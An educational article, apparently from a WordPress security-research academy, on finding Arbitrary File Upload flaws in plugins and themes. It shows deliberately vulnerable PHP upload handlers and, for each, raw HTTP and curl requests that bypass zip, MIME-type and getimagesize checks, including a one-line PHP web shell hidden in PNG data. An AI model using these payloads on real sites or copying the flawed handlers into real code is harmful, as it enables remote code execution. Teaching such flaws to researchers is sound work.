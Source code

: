 ```yaml
---
title: Arbitrary File Upload
contributors:
    - rafiem
---
```




## Introduction

This article covers cases of possible Arbitrary File Upload on WordPress. This includes improper file input handling inside of the plugin/theme which can be used to arbitrarily upload files including `.php` files to further achieve Remote Code Execution (RCE).

<LinkCard
  title="Learn how to secure your code against Arbitrary File Upload"
  href="/academy/wordpress/securing-code/arbitrary-file-upload/"
/>

## Files Input

The most common way to trace if a plugin/theme has a file handling from user input is via the `$_FILES` PHP variable. 

Another way that is most of the time missed by hackers is via [`WP_REST_Request::get_file_params`](https://developer.wordpress.org/reference/classes/wp_rest_request/get_file_params/) function. This function retrieves multipart file parameters from the body of a custom REST API route registered by the plugin/theme.


## Useful Functions

Several functions could be useful to identify a possible Arbitrary File Upload vulnerability:

- PHP related
    - [`move_uploaded_file`](https://www.php.net/manual/en/function.move-uploaded-file.php)
    - [`file_put_contents`](https://www.php.net/manual/en/function.file-put-contents)
    - [`fwrite`](https://www.php.net/manual/en/function.fwrite)
    - [`fputs`](https://www.php.net/manual/en/function.fputs.php)
    - [`copy`](https://www.php.net/manual/en/function.copy.php)
    - [`fputcsv`](https://www.php.net/manual/en/function.fputcsv.php)
    - [`rename`](https://www.php.net/manual/en/function.rename.php)
- WordPress related
    - [`WP_Filesystem_Direct::put_contents`](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/put_contents/)
    - [`WP_Filesystem_Direct::move`](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/move/)
    - [`WP_Filesystem_Direct::copy`](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/copy/)

## Compressed File Extraction

One of the processes to upload a file is through an extraction of the compressed file. The compressed itself can vary from zip, gz, tar, rar, xz, 7z, etc. Most of the time, the developer forgets to implement a pre-check before the extraction process and it could lead to users uploading arbitrary files if the user can control the filename and the content of the extracted file.

Here are several functions that can be used to decompress a file:

- [`ZipArchive::extractTo`](https://www.php.net/manual/en/ziparchive.extractto.php)
- [`PharData::extractTo`](https://www.php.net/manual/en/phardata.extractto.php)
- [`unzip_file`](https://developer.wordpress.org/reference/functions/unzip_file/)

```php
add_action("wp_ajax_unpack_fonts", "unpack_fonts");

function unpack_fonts(){
    $file = $_FILES["file"];
    $ext = end(explode('.',$file["name"]));

    if($ext !== "zip"){
        die();
    }
    
    $file_path = WP_CONTENT_DIR . "/uploads/" . $file["name"];
    move_uploaded_file($file["tmp_name"], $file_path);

    $zip = new ZipArchive;
    $f = $zip->open($file_path);

    if($f){
        $zip->extractTo(WP_CONTENT_DIR . "/uploads/");
        $zip->close();
    }
}
``` 

To bypass the above check we need to prepare a valid zip file and add a malicious PHP file inside the zip file. Below is the example of a raw HTTP and cURL request to trigger the Arbitrary File Upload:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Connection: close
Cookie: <AUTHENTICATED_USER_COOKIE>
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary4Qx3GCzIwMf0iOPi
Content-Length: 352

------WebKitFormBoundary4Qx3GCzIwMf0iOPi
Content-Disposition: form-data; name="action"

unpack_fonts
------WebKitFormBoundary4Qx3GCzIwMf0iOPi
Content-Disposition: form-data; name="file"; filename="pwn.zip"
Content-Type: application/zip

<MALICIOUS_ZIP_METADATA>
------WebKitFormBoundary4Qx3GCzIwMf0iOPi--

```

OR

```bash
curl -F 'file=@pwn.zip' 'http://localhost/wp-admin/admin-ajax.php?action=unpack_fonts' -H 'Cookie: <AUTHENTICATED_USER_COOKIE>'
```

## Bypass Techniques

Some of the conditions may make the file upload process secure, however, these specific conditions can still be bypassed to achieve an Arbitrary File Upload

### MIME Type Check

Developers often only check for the file's MIME content type before performing the upload process. This check alone is not enough to prevent Arbitrary File Upload since the attacker just needs to insert or append a malicious string like PHP code into a valid acceptable file MIME type.

Several functions could be used to check for a file's MIME type. Here are several functions that can be used to check for MIME type:

- [`mime_content_type`](https://www.php.net/manual/en/function.mime-content-type.php)
- [`exif_imagetype`](https://www.php.net/manual/en/function.exif-imagetype.php)
- [`finfo_file`](https://www.php.net/manual/en/function.finfo-file.php)

Example of vulnerable code:

```php
add_action("wp_ajax_nopriv_upload_image_check_mime", "upload_image_check_mime");

function upload_image_check_mime(){
    $file = $_FILES["file"];
    $file_type = mime_content_type($file["tmp_name"]);
    $file_path = WP_CONTENT_DIR . "/uploads/" . $file["name"];
    $allowed_mime_type = array("image/png", "image/jpeg");

    if(in_array($file_type, $allowed_mime_type)){
        move_uploaded_file($file["tmp_name"], $file_path);
        echo "file uploaded";
    }
    else{
        echo "file mime type not accepted";
    }
}
```

To bypass the above check we need to prepare a valid PNG file and append a malicious PHP code to the PNG file metadata then rename the file with php extension. Below is the example of a raw HTTP and cURL request to trigger the Arbitrary File Upload:


```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary4Qx3GCzIwMf0iOPi
Content-Length: 352

------WebKitFormBoundary4Qx3GCzIwMf0iOPi
Content-Disposition: form-data; name="action"

upload_image_check_mime
------WebKitFormBoundary4Qx3GCzIwMf0iOPi
Content-Disposition: form-data; name="file"; filename="pwn.php"
Content-Type: image/png

<PNG_IMAGE_METADATA>
<?php echo system($_GET["id"]); ?>
------WebKitFormBoundary4Qx3GCzIwMf0iOPi--

```

OR

```bash
curl -F 'file=@pwn.php' 'http://localhost/wp-admin/admin-ajax.php?action=upload_image_check_mime'
```

### Image Related Check

Most of the file upload process is for an image type of file. Sometimes, developers only check for conditions that are related to an image file. One of the common functions to be used for image-related checks is [`getimagesize`](https://www.php.net/manual/en/function.getimagesize.php) function.

Example of vulnerable code:

```php
add_action("wp_ajax_nopriv_upload_image_getimagesize", "upload_image_getimagesize");

function upload_image_getimagesize(){
    $file = $_FILES["file"];
    $file_path = WP_CONTENT_DIR . "/uploads/" . $file["name"];
    $size = getimagesize($file["tmp_name"]);
    $fileContent = file_get_contents($_FILES['file']["tmp_name"]);

    if($size){
        file_put_contents($file_path, $fileContent);
        echo "image uploaded";
    }
    else{
        echo "invalid image size";
    }
}
```

To bypass the above check we need to prepare a valid image file and append a malicious PHP code to the image file metadata then rename the file with php extension. Below is the example of a raw HTTP and cURL request to trigger the Arbitrary File Upload:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary4Qx3GCzIwMf0iOPi
Content-Length: 352

------WebKitFormBoundary4Qx3GCzIwMf0iOPi
Content-Disposition: form-data; name="action"

upload_image_getimagesize
------WebKitFormBoundary4Qx3GCzIwMf0iOPi
Content-Disposition: form-data; name="file"; filename="pwn.php"
Content-Type: image/png

<PNG_IMAGE_METADATA>
<?php echo system($_GET["id"]); ?>
------WebKitFormBoundary4Qx3GCzIwMf0iOPi--

```

OR

```bash
curl -F 'file=@pwn.php' 'http://localhost/wp-admin/admin-ajax.php?action=upload_image_getimagesize'
```

## Article References


Below are some of the findings related to Arbitrary File Upload:

- [AI Engine Plugin Affected by Critical Vulnerability](https://patchstack.com/articles/ai-engine-plugin-affected-by-critical-vulnerability/)
- [Multiple Vulnerabilities Patched in Themify Ultra Theme](https://patchstack.com/articles/multiple-vulnerabilities-patched-in-themify-ultra-theme/)
- [Critical Vulnerability in Elementor Affecting 5+ Million Websites](https://patchstack.com/articles/critical-vulnerability-in-elementor-affecting-5-million-websites/)
- [Pre-Auth Arbitrary File Upload in User Submitted Posts Plugin](https://patchstack.com/articles/pre-auth-arbitrary-file-upload-in-user-submitted-posts-plugin/)
- [Critical Arbitrary File Upload Patched in Forminator Plugin](https://patchstack.com/articles/critical-arbitrary-file-upload-patched-in-forminator-plugin/)
- [Multiple High and Critical Vulnerabilities in Avada Theme and Plugin](https://patchstack.com/articles/multiple-high-and-critical-vulnerabilities-in-avada-theme-and-plugin/)
- [Critical Vulnerabilities Patched in Jupiter X Core Plugin](https://patchstack.com/articles/critical-vulnerabilities-patched-in-jupiter-x-core-plugin/#unauthenticated-arbitrary-file-upload)
